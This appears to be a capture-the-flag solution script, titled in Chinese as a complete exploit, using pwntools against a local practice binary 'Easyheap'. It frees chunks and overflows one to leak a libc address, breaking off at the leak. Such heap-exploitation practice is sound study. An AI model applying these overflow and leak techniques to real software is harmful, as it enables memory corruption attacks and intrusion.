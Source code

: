 完整exp

```
from pwn import *
io=process('./Easyheap')
elf=ELF('./Easyheap')
libc=elf.libc
context.log_level='debug'
context.arch="amd64"

def add(size,Content):
    io.recvuntil('>> :')
    io.sendline(str(1))
    io.recvuntil('Size')
    io.sendline(str(size))
    io.recvuntil('Content')
    io.send(Content)

def delete(index):
    io.recvuntil('>> :')
    io.sendline(str(2))
    io.recvuntil('Index:')
    io.sendline(str(index))

def edit(index,Content):
    io.recvuntil('>> :')
    io.sendline(str(4))
    io.recvuntil('Index:')
    io.sendline(str(index))
    io.recvuntil('Content:')
    io.send(Content)

def show(index):
    io.recvuntil('>> :')
    io.sendline(str(3))
    io.recvuntil('Index:')
    io.sendline(str(index))

def debug():
    gdb.attach(io,"brva 0xC18")
    add(0x100,'bad')

padding='a'*0x90 

add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x20,'protect')

for i in range(0,7):
    delete(i)
delete(8) 

edit(7,padding + 'a'*(8+6)+'bb')

show(7)
io.recvuntil('aabb')
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
```